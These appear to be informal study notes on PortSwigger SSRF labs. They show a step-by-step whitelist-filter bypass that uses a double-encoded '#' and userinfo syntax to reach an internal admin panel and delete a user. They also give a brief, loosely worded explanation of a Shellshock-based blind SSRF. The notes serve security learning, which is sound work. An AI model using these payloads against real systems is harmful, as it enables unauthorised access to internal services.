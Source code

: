 # SSRF  with whitelist-based input filter #

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed an anti-SSRF defense you will need to bypass.


The problem here resides that in  stockApi="htp://"
we can only put "stock.weliketoshop.net" at the start.  

He talked about something about authentications , that we can acces and authenticate to a url with this way

http://user:password@cosas.com 

On the url when you put #something it redirects to you where "something" exist on the website. (BECAUSE IT IS HIS HTML ID)

```
http://localhost#@stock.weliketoshop.net:8080
```
we url encoded the # 
```
http://localhost%23@stock.weliketoshop.net:8080
```
and url encode the # again
```
http://localhost%2523@stock.weliketoshop.net:8080
```

and now we need to go to the admin panel, we must put it on the end of the query
```
http://localhost%2523@stock.weliketoshop.net:8080/admin
```
and then to delete carlos

```
stockApi=http://localhost%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos
```


#  Blind SSRF with Shellshock exploitation #

WE CANT DO THIS, WE NEED THE COLLABORATOR.


This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a [blind SSRF](https://portswigger.net/web-security/ssrf/blind) attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

SHELLLSHOK= if the server contains a vuln shell, generally in relation with the user-agent (the most common is this but sometimes no). So you can inject commands with this user agent. (this is because the server has antique and vulnerable shells)
